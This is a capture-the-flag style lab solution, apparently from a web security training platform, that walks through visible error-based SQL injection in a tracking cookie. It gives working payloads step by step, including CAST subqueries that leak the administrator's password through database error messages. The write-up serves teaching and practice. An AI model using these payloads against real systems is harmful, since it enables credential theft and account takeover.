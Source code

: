 # Lab: Visible error-based SQL injection
This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account.

## Solution

### Information gathering
At first we can test out the vulnerability and confirm the existence of the table 'users' and the username 'administrator'.

Adding a tick to the content of the cookie gives us an error:
```
TrackingId=IeRhAtOxNT0AuPb2'
```
```
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'IeRhAtOxNT0AuPb2''. Expected  char
```

Using the following query results in no error. So probably we have a MySQL database:
```
TrackingId=IeRhAtOxNT0AuPb2'||(select null)||'
```

We can also verify that the query runs correct by checking for a non existing table:
```
TrackingId=IeRhAtOxNT0AuPb2'||(select null from test)||'
```
This will produce the following error message:
```
ERROR: relation "test" does not exist Position: 73
```

To confirm the existence of the 'users' table we can just query the table:
```
TrackingId=IeRhAtOxNT0AuPb2'||(select null from users)||'
```
We get an error:
```
ERROR: more than one row returned by a subquery used as an expression
```
This error tells us, that the answer to the query contains multiple rows. So the table exists.

If we limit the query to only one row we get no error:
```
TrackingId=IeRhAtOxNT0AuPb2'||(select null from users limit 1)||'
```

The next step is to comfirm the username 'administrator'. For that we have to use a conditional error. For example this one:
```
TrackingId=IeRhAtOxNT0AuPb2'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')||'
```
But we get an error:
```
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = '2Dea5evkp3l2nR4B'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0)'. Expected  char
```

Seems like there is a character limit. We can also verify this by modifying the query:
```
TrackingId='||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END FROM users WHERE username='administrator')||'
```
```
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = ''||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE NULL END F'. Expected  char
```

### Cast
At this point we remember a part of the description in relation to the usage of `CAST`: _This type of query may also be useful in cases where you're unable to trigger conditional responses because of a character limit imposed on the query._

`CAST` converts one data type into another. If it results in an error, for example because of a bad conversion, it can reveal the data in the error message.

So using `CAST` and shorten the query will probably help us at this point:
```
TrackingId='||cast((select password from users limit 1) as int)||'
```
The error message seems like a password, that we are looking for:
```
ERROR: invalid input syntax for type integer: "h6wrphwn9z1i1l4qa59m"
```

To get the related user to that password we have to adjust the column:
```
TrackingId='||cast((select username from users limit 1) as int)||'
```
```
ERROR: invalid input syntax for type integer: "administrator"
```
The user is actually the administrator!

Aswell we can use the following syntax:
```
TrackingId=' and cast((select username from users limit 1) as int)=1 --
TrackingId=' and cast((select password from users limit 1) as int)=1 --
```

Logging in with those credentials will solve the lab.